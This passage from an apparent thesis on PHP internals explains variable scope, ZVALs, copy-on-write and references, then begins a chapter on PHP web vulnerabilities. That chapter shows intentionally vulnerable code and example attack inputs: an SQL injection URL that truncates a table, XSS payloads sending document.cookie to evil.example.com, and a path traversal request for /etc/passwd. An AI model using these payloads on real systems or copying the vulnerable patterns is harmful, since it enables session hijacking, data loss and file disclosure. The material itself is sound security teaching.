A variable defined within a function is by default only available in the local function scope, i.\,e., in the function's symbol table. In the following example, there is a global variable \texttt{\$beverage} as well as a local variable \texttt{\$beverage}:

\begin{phpcode}
$beverage = 'tea';

function breakfast() {
  $beverage = 'coffee';
}
\end{phpcode}

Note: Local scope works exactly the same way for functions and class methods---which in PHP also use the \texttt{function} keyword.


\subsubsection{The ``global'' Keyword and \$GLOBALS}
\label{sec:globals}\index{global (keyword)}\index{\$GLOBALS}

Using the \texttt{global} keyword, it is possible to create a reference from a local variable to a global variable with the same name:

\begin{phpcode}
function breakfast() {
  global $beverage;
  echo 'Let have some ' . $beverage . '!';
}

$beverage = 'tea';
breakfast();
\end{phpcode}

\begin{textcode}
Let's have some tea!
\end{textcode}

Using the \texttt{\$GLOBALS} superglobal\index{superglobals} variable, it is possible to access global variables from a local scope without having to add the variable to the local scope:

\begin{phpcode}
function breakfast() {
  echo 'Let have some ' . $GLOBALS['beverage'] . '!';
}

$beverage = 'coffee';
breakfast();
\end{phpcode}

\begin{textcode}
Let's have some coffee!
\end{textcode}

\paragraph{Note:} Using the \texttt{global} keyword is perfectly valid (as of PHP 5.4), but its usage is not recommended as this will make distinguishing between local and globals variables harder when reading the code. Instead, it is recommended to use the \texttt{\$GLOBALS} superglobal to make the access more explicit. ~\cite{typo3-cgl-php-syntax-formatting}



\subsection{ZVALs and Reference Counting}

\subsubsection{ZVALs}
\label{sec:zvals}

By default, variables in PHP are assigned by value~\cite{php-manual-variables}. They are internally stored in a structure called \emph{ZVAL}.\index{ZVAL}\index{PHP variables}\index{variables} In one of the C header files~\cite{php-src-api-headers} in the PHP source code, the structure looks like this:

\begin{ccode}
struct _zval_struct {
  /* Variable information */
  zvalue_value value;       /* value */
  zend_uint refcount__gc;
  zend_uchar type;          /* active type */
  zend_uchar is_ref__gc;
};

typedef union _zvalue_value {
  long lval;     /* long value */
  double dval;   /* double value */
  struct {
    char *val;
    int len;
  } str;
  HashTable *ht;  /* hash table value */
  zend_object_value obj;
} zvalue_value;
\end{ccode}

Hence, a variable basically consists of a name (which is stored outside the ZVAL structure~\cite{php-extensions-zval}), a type, a value, and a reference counter.\index{reference counting}

\paragraph{Note:} This applies to basic data types like integers, strings or floats. For objects, things are a bit more complicated (see below).

Let's assume we have the following code:

\begin{phpcode}
$x = 42;
xdebug_debug_zval('x');
\end{phpcode}

The command \texttt{xdebug\_debug\_zval} from the Xdebug PHP extension~\cite{xdebug-functions} outputs detailed information on the variable (figure~\ref{fig:simple-variable} on page~\pageref{fig:simple-variable}):

\begin{textcode}
x: (refcount=1, is_ref=0)=42
\end{textcode}

\begin{figure}[htb]
  \begin{center}
    
\includegraphics[scale=0.8]{images/x_42}
    \caption{A variable basically is an entry in the symbol table, pointing to a ZVAL.}
    \label{fig:simple-variable}
  \end{center}
\end{figure}

The reference count is used both by the garbage collector as well as to save memory by using a copy-on-write strategy.~\cite{php-manual-reference-counting}\index{copy-on-write}


\subsubsection{Copy-on-Write Variables}
\label{sec:copy-on-write}
\index{copy-on-write variables}\index{variables!copy-on-write|see{copy-on-write variables}}

To preserve memory and improve performance, PHP uses a copy-on-write strategy for variables that are copies of one another. This copy-on-write strategy has no direct im\-pact on alias analysis whatsoever. Nevertheless, understanding this phenomenon is necessary in order to interpret all the reference counter correctly and to differentiate between real aliases and copy-on-write ZVALs.

Let's have a look at an example:

\begin{phpcode}
$x = 42;
$y = $x;
xdebug_debug_zval('x');
xdebug_debug_zval('y');
\end{phpcode}

This code leads to both variables pointing to the exact same ZVAL, just by different names (figure~\ref{fig:copy-on-write-variable} on page~\pageref{fig:copy-on-write-variable}):

\begin{textcode}
x: (refcount=2, is_ref=0)=42
y: (refcount=2, is_ref=0)=42
\end{textcode}

\begin{figure}[htb]
  \begin{center}
    \includegraphics[scale=0.8]{images/x_y_42}
    \caption{PHP uses copy-on-write for variables: If one variable is a copy of another variable, both share the same ZVAL until one of the variables is modified.}
    \label{fig:copy-on-write-variable}
  \end{center}
\end{figure}


\subsubsection{Removing (Unsetting) Copy-on-Write Variables from the Symbol Table}
\label{sec:unsetting}
\index{symbol table}
\index{unsetting variables}\index{variables!unsetting|see{unsetting variables}}

When one of the variables is unset, the unset variable gets removed from the symbol table\index{symbol table} of the current scope, the reference counter is decreased again (figure~\ref{fig:reference-count-decreased} on page~\pageref{fig:reference-count-decreased}):

\begin{phpcode}
$x = 42;
$y = $x;
unset($y);
xdebug_debug_zval('x');
\end{phpcode}

\begin{textcode}
x: (refcount=1, is_ref=0)=42
\end{textcode}

\begin{figure}[htb]
  \begin{center}
    
\includegraphics[scale=0.8]{images/x_42}
    \caption{After one of the two variables (that temporarily shared the same ZVAL via copy-on-write) is unset, the reference count in the ZVAL is back from 2 to 1 again.}
    \label{fig:reference-count-decreased}
  \end{center}
\end{figure}


\subsubsection{Overwriting Copy-on-Write Variables}
\label{sec:overwriting}

When one of the variables is overwritten later, PHP creates a new ZVAL for the new value and decreases the reference count of the first ZVAL(figure~\ref{fig:new-zval-after-copy-on-write} on page~\pageref{fig:new-zval-after-copy-on-write}):

\begin{phpcode}
$x = 42;
$y = $x;
$x = 3;
xdebug_debug_zval('x');
xdebug_debug_zval('y');
\end{phpcode}

\begin{textcode}
x: (refcount=1, is_ref=0)=3
y: (refcount=1, is_ref=0)=42
\end{textcode}

\begin{figure}[htb]
  \begin{center}
    
\includegraphics[scale=0.8]{images/x_3_y_42}
    \caption{A new ZVAL is automatically created after the value of one of two variables using a copy-on-write strategy is changed.}
    \label{fig:new-zval-after-copy-on-write}
  \end{center}
\end{figure}

\paragraph{Note:} \texttt{xdebug\_debug\_zval} will never display a \texttt{refcount} of zero for a variable because \texttt{xdebug\_debug\_zval} cannot display variables that have been unset (and that, by definition, do not exist anymore at that point).

\paragraph{Note:} To get PHP to actually use copy-on-write, it is necessary to directly copy the value of one variable to another variable. Mereley assigning the same value to both variables will not lead to both variables sharing one ZVAL. Thus, this behavior is different from the way the Java virtual machine handles strings in order to preserve memory.~\cite[chapter~2]{jvm-spec}\index{Java}\index{strings in Java}


\subsection{References}
\label{sec:references}

References in PHP are two variables pointing to the same ZVAL. The PHP manual takes particular care to make clear the difference to C pointers:~\cite{php-manual-what-references-are}\cite{php-manual-what-references-are-not}\index{references}\index{C/C++ pointers}\index{pointers in C/C++}

\begin{quote}
References in PHP are a means to access the same variable content by different names. They are not like C pointers; for instance, you cannot perform pointer arithmetic using them, they are not actual memory addresses, and so on.
\end{quote}

There are several ways to create references in PHP: assigning by reference, passing by reference and returning references. This list includes all approaches that are mentioned in the PHP manual.~\cite{php-manual-references} As the PHP manual is the official source of documentation on PHP, this list should be quite complete.


\subsubsection{Assigning by Reference}
\index{assigning by reference}

\paragraph{Creating References:}

References from one variable to another are set using the \texttt{=\&} operator.~\cite[page 129]{wenz-php53}\cite{php-manual-what-references-do} After this, both variables refer to the same ZVAL instead of one variable pointing to the other, and it is not possible to distinguish between the referenced variable and the referencing variable anymore. Changing the value of one of the variables then changes the value in the existing ZVAL (and thus for both variables). However, it does \emph{not} create a new ZVAL.

The corresponding ZVAL is marked with \texttt{is\_ref=1}---which is a 0/1 boolean flag, not a counter---, and the reference count is increased (figure~\ref{fig:simple-reference} on page~\pageref{fig:simple-reference}):

\begin{phpcode}
$a1 = 'foo';
$a2 =& $a1;
$a1 = 'bar';
xdebug_debug_zval('a1');
xdebug_debug_zval('a2');
\end{phpcode}

\begin{textcode}
a1: (refcount=2, is_ref=1)='bar'
a2: (refcount=2, is_ref=1)='bar'
\end{textcode}

\begin{figure}[htb]
  \begin{center}
    
\includegraphics[scale=0.8]{images/a1_a2}
    \caption{Two variables that are references to one another share the same ZVAL. Thus, changing the value of one variable automatically affects the other variable as well.}
    \label{fig:simple-reference}
  \end{center}
\end{figure}


The same mechanism also applies when the content of a variable is copied to a variable that is a reference. In the following example, the content of \texttt{\$q3} is copied to \texttt{\$q2}, thus also changing the value of \texttt{\$q1} as both \texttt{\$q1} and \texttt{\$q2} are references to the same ZVAL (figure~\ref{fig:copying-value-to-reference} on page~\pageref{fig:copying-value-to-reference}):

\begin{phpcode}
$q1 = 'foo';
$q2 =& $q1;

$q3 = 'bar';
$q2 = $q3;
xdebug_debug_zval('q1');
xdebug_debug_zval('q2');
\end{phpcode}

\begin{textcode}
q1: (refcount=2, is_ref=1)='bar'
q2: (refcount=2, is_ref=1)='bar'
\end{textcode}

\begin{figure}[htb]
  \begin{center}
    
\includegraphics[scale=0.8]{images/q1_q2_q3}
    \caption{Copying the value of one variable to two variables (which are references to each other) changes the value of the target ZVAL. In this case, PHP does not use a copy-on-write strategy because a ZVAL can be involved either in references or in copy-on-write, but not both at the same time.}
    \label{fig:copying-value-to-reference}
  \end{center}
\end{figure}



However, when a variable that is a reference to some variable is changed to be a reference to a different variable, this changes only the entry in the symbol table, not the ZVAL. In the following example, \texttt{\$p2} is a reference to \texttt{\$p1} and then gets changed to be a reference to \texttt{\$p3}. \texttt{\$p1} stays unchanged as the corresponding ZVAL is not modified (figure~\ref{fig:changing-references} on page~\pageref{fig:changing-references}):

\begin{phpcode}
$p1 = 'foo';
$p2 =& $p1;

$p3 = 'bar';
$p2 =& $p3;
xdebug_debug_zval('p1');
xdebug_debug_zval('p2');
\end{phpcode}

\begin{textcode}
p1: (refcount=1, is_ref=0)='foo'
p2: (refcount=2, is_ref=1)='bar'
\end{textcode}

\begin{figure}[htb]
  \begin{center}
    
\includegraphics[scale=0.8]{images/p1_p2_p3}
    \caption{Changing a variable from a reference to one variable to a reference to another variable basically just rearranges to which ZVAL the symbol table entry is pointing (and adjusts the reference counters in the ZVALS accordingly).}
    \label{fig:changing-references}
  \end{center}
\end{figure}




\paragraph{Dropping References and Reference Counting:}
\index{reference counting}

When a variable that is a reference is unset, PHP removes the variable from the symbol table\index{symbol table} of the current scope (i.\,e., it cuts the connection between the variable name and the ZVAL) and decreases the reference count. The ZVAL will not be destroyed---or be allowed for garbage collection---as long as the reference count is greater than zero.

There is a difference between cases of at least two references pointing to the same ZVAL and cases of only one reference being left. For at least two references, the ZVAL will still be marked as \texttt{is\_ref=1}:

\begin{phpcode}
$a1 = 'foo';
$a2 =& $a1;
$a3 =& $a1;
unset($a2);
xdebug_debug_zval('a1');
\end{phpcode}

\begin{textcode}
a1: (refcount=2, is_ref=1)='foo'
\end{textcode}

If there is only one reference to the ZVAL left, it will be marked as \texttt{is\_ref=0}---even if the variable that is left standing after all its fellows have been unset is not the original first variable:

\begin{phpcode}
$b1 = 'foo';
$b2 =& $b1;
unset($b1);
xdebug_debug_zval('b2');
\end{phpcode}

\begin{textcode}
b2: (refcount=1, is_ref=0)='foo'
\end{textcode}

\paragraph{Note:} References can only be created to variables\footnote{References to objects created with \texttt{new} in the same call are also possible. However, this usage of references has been deprecated in PHP 5.0.~\cite{php-manual-what-references-do}}, but not to literal values or expressions:

\begin{phpcode}
$answer =& 42;
\end{phpcode}

\begin{textcode}
PHP Parse error:  syntax error, unexpected '42' (T_LNUMBER) in
  /tmp/zval-test.php on line 2
\end{textcode}


\subsubsection{Returning by Reference}
\index{returning by reference}

In PHP, functions---and thus also methods---normally return their return values by value. However, it is possible to change the method so that the value is returned by reference:~\cite{php-manual-returning-reference}

\begin{phpcode}
class Foo {
  public $property = 0;

  public function &getProperty() {
    return $this->property;
  }
}

$foo = new Foo();
$property =& $foo->getProperty();
$property = 4;

xdebug_debug_zval('foo');
\end{phpcode}

\begin{textcode}
foo: (refcount=1, is_ref=0)=class Foo
  { public $property = (refcount=2, is_ref=1)=4 }
\end{textcode}

For returning by reference to actually work, both ampersand signs are necessary: the ampersand in the function declaration \texttt{function \&getProperty()} (for the function to return the value by reference) as well as the ampersand when using the return value \texttt{\$property = \&\$foo->getProperty();} so that \texttt{\$property} is assigned by reference, not by value.


\subsubsection{Passing by Reference}
\index{passing by reference}

Variables can also be passed to functions---and methods---by reference. \cite{php-manual-passing-by-reference} This allows the function to change the value of the passed variable. Note that by default, function parameters are passed by value, not by reference.

\begin{phpcode}
function changeParameter(&$parameter) {
  $parameter = 42;
}

$a = 5;
changeParameter($a);

xdebug_debug_zval('a');
\end{phpcode}

\begin{textcode}
a: (refcount=1, is_ref=0)=42
\end{textcode}

Note: In the context of the function, the ZVAL's reference count is two (because \texttt{\$parameter} is a reference to \texttt{\$a}). As the scope of \texttt{\$parameter} ends with the end of the function, this causes the variable to be destroyed, decreasing the reference count in the ZVAL back to one.


\subsection{References and Objects}
\label{object-references}

Starting from PHP~5, objects are always passed by reference---in a way:~\cite{php-manual-migration5-oop, php-src-rfc-object-handles}

\begin{quote}
In PHP 5 there is a new Object Model. PHP's handling of objects has been completely rewritten, allowing for better performance and more features. In previous versions of PHP, objects were handled like primitive types (for instance integers and strings). The drawback of this method was that semantically the whole object was copied when a variable was assigned, or passed as a parameter to a method. In the new approach, objects are referenced by handle, and not by value (one can think of a handle as an object's identifier).\index{object handles}
\end{quote}

In a nutshell, PHP does not pass objects by reference, but instead by default passes copies of the object handle---and all copies of one object handle point to the same object instance. So PHP does not pass direct references, but indirect references. This causes PHP to exhibit a strange mix of behavior---in some regards, it looks as though objects are actually passed by reference, while there are some puzzling exceptions and edge-cases.

Technically speaking, if a variable is an object instance, the ZVAL contains a \emph{handle} (or object \emph{identifier}) for the object, not the object itself. Thus, if variables (indirectly) point to the same object, the variables actually contain \emph{copies} of the indentifier.~\cite{php-manual-oop-references}

As long as the object is merely accessed, object variables work just like references (figure \ref{fig:objects-as-references} on page~\pageref{fig:objects-as-references}):

\begin{phpcode}
$instance = new StdClass();
$instance->field = 'foo';

$instance2 = $instance;
$instance2->field = 'bar';

xdebug_debug_zval('instance');
xdebug_debug_zval('instance2');
\end{phpcode}

\begin{textcode}
instance: (refcount=2, is_ref=0)=class stdClass
  { public $field = (refcount=1, is_ref=0)='bar' }
instance2: (refcount=2, is_ref=0)=class stdClass
  { public $field = (refcount=1, is_ref=0)='bar' }
\end{textcode}

(In the output of \texttt{xdebug\_debug\_zval}, it unfortunately is not possible to see that the ZVALs only contain the object identifiers, not the object itself. The output also does not make it clear that objects internally are represented using separate symbol tables.)

\begin{figure}[htb]
  \begin{center}
    
\includegraphics[scale=0.8]{images/instance_instance2}
    \caption{Objects use the ZVAL merely for the object identifier/handle, not for the actual data contained in the object.}
    \label{fig:objects-as-references}
  \end{center}
\end{figure}

However, if we start to use the object variables like real references and try to overwrite one object by setting the other object, the difference to real references becomes apparent (figure~\ref{fig:false-object-references} on page~\pageref{fig:false-object-references}):

\begin{phpcode}
$someInstance = new StdClass();
$someInstance->field = 'foo';

$instance2 = $instance;
$instance2 = 42;

xdebug_debug_zval('instance');
xdebug_debug_zval('instance2');
\end{phpcode}

\begin{textcode}
instance: (refcount=1, is_ref=0)=class stdClass
  { public $field = (refcount=1, is_ref=0)='bar' }
instance2: (refcount=1, is_ref=0)=42
\end{textcode}

\begin{figure}[htb]
  \begin{center}
    
\includegraphics[scale=0.8]{images/someInstance_instance2}
    \caption{Overwriting an object variable overwrites the ZVAL only. This is a good example of object ``references'' not working like real references.}
    \label{fig:false-object-references}
  \end{center}
\end{figure}

Object variables can also be used as real references though---again by using the ampersand (\texttt{\&}) operator (figure~\ref{fig:real-object-references} on page~\pageref{fig:real-object-references}):

\begin{phpcode}
$someInstance = new StdClass();
$someInstance->field = 'foo';

$instanceReference =& $someInstance;
$instanceReference = 42;

xdebug_debug_zval('someInstance');
xdebug_debug_zval('instanceReference');
\end{phpcode}

\begin{textcode}
someInstance: (refcount=2, is_ref=1)=42
instanceReference: (refcount=2, is_ref=1)=42
\end{textcode}

\begin{figure}[htb]
  \begin{center}
    
\includegraphics[scale=0.8]{images/someInstance_instanceReference}
    \caption{References to object variables work are real references, though, as overwriting one variable automatically affects the other variable as well.}
    \label{fig:real-object-references}
  \end{center}
\end{figure}


\section{Register\_globals (READY FOR FEEDBACK, PROOFREAD)}
\label{register-globals}\index{register\_globals}

In the PHP configuration, there is an option \texttt{register\_globals}. If this option is set to \texttt{On}, uninitialized variables are automatically initialized with data from the request using the same key as the variable name.

If a program does not properly initialize a variable (which would be considered very bad style), this could allow attackers to inject variable content via the request, creating a vulnerability.

The following code demonstrates this:

\begin{phpcode}
if ($this->isUserLoggedIn()) {
  $user = $this->getLoggedInUser();
  $escapedUserName = htmlspecialchars($user->getName());
}

echo '<h2>Welcome back, ' . $escapedUserName . '!</h2>';
\end{phpcode}

If no user is logged in, the \texttt{\$escapedUserName} variable is uninitialized in line 6, causing the code to be susceptible to cross-site-scripting via the \texttt{escapedUserName} request parameter. (See section~\ref{xss} for details on cross-site scripting.)

\texttt{register\_globals} has been deprecated in PHP 5.3 and removed in PHP 5.4.~\cite{php-manual-register-globals} Hence, unless a program is ensured to be only executed in an environment running PHP 5.4 or higher, uninitialized variables still need to be regarded as tainted.


\section{Big Changes in Recent PHP Versions (TODO)}
TODO: Integrate chapter~\ref{sec:php54} on page~\pageref{sec:php54} into this section.

\emptydoublepage

\chapter{Vulnerabilities in PHP Web Applications (READY FOR FEEDBACK, PROOFREAD)}
\label{vulnerabilities}

The vulnerabilities in this chapter are divided into two parts: Tainted object propagation problems (which potentially can be found by tainted object propagation scanners like Pixy), and problems of other types (for which other tools are more helpful, or which usually are found through code inspection by a human).

This list of vulnerabilities is by no means complete, but should cover the most common vulnerabilities found in PHP web applications (according to the author's experience as a member of the TYPO3 Security Team since 2008~\cite{security-team-members}). The code examples are all by the author.

\emph{Note: The URLs of all examples in this section are not URL-encoded to make them easier to read. In real life, the URL would be URL-encoded, e.g., spaces would be encoded as \texttt{\%20}.}

\section{The ``Common Weakness Enumeration'' List}
\index{Common Weakness Enumeration}\index{CWE|see{Common Weakness Enumeration}}
The \emph{Common Weakness Enumeration (CWE)}~\cite{cwe} is a widely-used formal list of software vulnerabilities that strives to serve as a common language for the vulnerabilities. This list includes extensive information on the vulnerability, including examples of vulnerable code, tips for mitigation, and information on whether this type of vulnerability can be found using dynamic or static program analysis. Organizations like Apple, Coverity or IBM make use of this list and provide tools that are compatible with it~\cite{cwe-organizations}.

The CWE issues a yearly list of the ``Top 25 Most Dangerous Software Errors''~\cite{cwe-top-25} which includes many of the issues listed here. This list---based on a survey of a selected number of organizations---includes the ``top issues'' both concerning how critical they are as well as how widespread they are. Nevertheless, it does not cover all types of vulnerabilities listed in this section due to its focus on web applications written in PHP, whereas the top 25 list is intended to cover web applications in all languages.

All in all, the CWE contains 909 entries and should cover most types of vulnerabilities.~\cite{cwe-all}

\section{Tainted Object Propagation Vulnerabilities}
\index{tainted object propagation vulnerabilities}
The term \emph{tainted object propagation vulnerabilities}~\cite{finding-security-vulnerabilities} refers to a class of problems where untrusted data is used without sanitizing it properly for the context which it is to be used in. There are already some (documented) approaches to generally detecting these problems in web applications. Pixy as a scanner for tainted object propagation vulnerabilities currently is able to find SQL injection and reflective cross-site scripting.

\myTable{
\begin{tabular}{|l|l|l|l|}
\hline
\bb{Vulnerability} & \bb{Top 25} & \bb{CWE ID} & \bb{Literature}\\
\hline
SQL injection & \#1 & CWE-89 & \cite{sql-injection-definition, blindfolded-sql-injection, advanced-sql-injection, typo3-security-guide}\\
\hline
Cross-site scripting & \#4 & CWE-79 & \cite{xss-cert, xss-definition, typo3-security-guide,kunz-esser}\\
\hline
HTTP response splitting & --- & CWE-113 & \cite{kunz-esser}\\
\hline
Directory traversal, & \#13 & CWE-22 & \cite{path-traversal-definition}\\
path traversal & & & \\
\hline
OS command injection & \#2 & CWE-78 &  \cite{command-injection-definition}\\
\hline
PHP file inclusion, & --- & CWE-98 & \cite{code-injection-definition, typo3-security-guide}\\
remote code injection, &  & & \\
remote command execution &  & & \\
\hline
E-mail header injection, & --- & CWE-93 &  \cite{kunz-esser}\\
spam via e-mail forms &  & & \\
\hline
\end{tabular}
}{Selected tainted object propagation vulnerabilities}{tainted-vulnerabilities}

\subsection{SQL Injection}
\label{sql-injection}\index{SQL injection}
An SQL injection vulnerability exists if a string from an external source is directly used in an SQL query. This is an example of vulnerable code:

\begin{phpcode}
$queryResult = mysql_query(
  'SELECT * FROM posts WHERE uid = ' . $_GET['postUid'] . ';'
);
\end{phpcode}

An attacker would use a URL like this:

\begin{textcode}
http://example.com/blog.php?postUid=1;TRUNCATE DATABASE posts
\end{textcode}

This URL then would result in the following SQL getting executed:

\begin{sqlcode}
SELECT * FROM posts WHERE uid = 1;TRUNCATE DATABASE posts;
\end{sqlcode}

This effectively deletes all records from the \texttt{posts} table.


\subsection{Cross-Site Scripting (XSS)}
\label{xss}\index{cross-site scripting}\index{XSS|see{cross-site scripting}}
Cross-site-scripting (XSS) means that a string (or generally some data) from an external source is used in the website output, allowing to inject HTML, JavaScript or (seldom) XML. This provides an attacker with leverage for attacks such as sending the current cookies to a malicious site. The cookie then can be used for session hijacking.

There are two variants of XSS: \emph{reflective XSS}, where the malicious data is directly transmitted without having been stored, e.g., via a URL, and \emph{persistent XSS}, where the malicious data gets stored in a database or a file.

In April 2010, the Apache Foundation reported an incident where an XSS vulnerability was used for a series of attacks that resulted in an attacker gaining root privileges for a server. \cite{apache-incident-report}


\subsection{Reflective XSS}
\index{reflective cross-site scripting}\index{reflective XSS|see{reflective cross-site scripting}}
Reflective cross-site scripting is a variant of XSS which enables the malicious output to come directly from the input without being stored in the database or file system. Thus loading the page from a non-malicious link will not show the malicious code. This is a simple example of vulnerable code:

\begin{phpcode}
$output = 'Thank you for sending an e-mail to ' . $_POST['email'] . '.';
\end{phpcode}

The URL used by an attacker then could look like this:

\begin{textcode}
http://example.com/blog.php?email=<script>image=new Image();
  image.src="http://evil.example.com/?c="+document.cookie</script>
\end{textcode}

This results in sending the current cookies to a (potentially) malicious server, allowing an attacker to hijack the user's current session.

XSS opens the gates to many kinds of attacks. For example, it is possible to read the passwords from a login form after they have automatically been filled in by the browser's password storage. It also allows reading the clipboard content and sending it to another server.


\subsection{Persistent XSS}
\label{persistent-xss}\index{persistent cross-site scripting}\index{persistent XSS|see{persistent cross-site scripting}}
Persistent cross-site scripting (persistent XSS) is a variant of the XSS vulnerability. It refers to the case when untrusted data is first stored in the file system or database, and some other part of the application then uses the stored data for output, thus inserting the malicious data in the output even if the page is loaded from a clean URL. This is a lot harder to find via tainted object propagation due to the database being between the source and the sink, causing the source and the sink to come into action during separate requests. One way to make this detectable would be to mark data from the database as basically untrusted, which however might increase the number of false positives.

This is an example of vulnerable code:

\begin{phpcode}
$postData = $this->retrievePostFromDatabase($postUid);
$output = '<h3>' . $postData['title'] . '</h3>';
\end{phpcode}

An attacker could use the post submission form and enter a title like this:

\begin{htmlcode}
<script>
  image = new Image();
  image.src = "http://evil.example.com/?c=" + document.cookie;
</script>
\end{htmlcode}

This code would send the site's current cookies to the server \texttt{evil.example.com}. The cookies can include the user's current session ID, which would allow the attacker to use the session ID for conducting a session-riding attack (which is also called ``session hijacking'').~\cite{kunz-esser}

\subsection{HTTP Response Splitting}
\label{http-response-splitting}\index{HTTP response splitting}
An HTTP response splitting attack is based on code allowing unsanitized CRLF (0x0d0a) character combinations to be included in HTTP headers, thus creating multiple headers.

However, as of PHP versions 4.4.2 and 5.1.2, the \texttt{header()} function only allows one header at a time, thus preventing header injection attacks. \cite{php-manual-header}


\subsection{Directory Traversal/Path Traversal}
\label{directory-traversal}\index{directory traversal}\index{path traversal}
Directory traversal (also known as \emph{path traversal}) is possible if a vulnerable application includes or outputs a file using a path that comes from an untrusted source. If the application does not check that the path is relative and does not contain two dots (\texttt{..}) (directly or URL-encoded), it is possible to read or overwrite files that should not be visible, e.g. \texttt{/etc/passwd/} or the file with the database credential of the application.

This is an example of vulnerable code:

\begin{phpcode}
echo $createHeader();
if (isset($_GET['file']) && ($_GET['file'] != '')
  && is_file($_GET['file'])
) {
  echo file_get_contents($file);
}
echo $createFooter();
\end{phpcode}

An attack URL could look like this:

\begin{textcode}
http://www.example.com/index.php?file=../../../etc/passwd
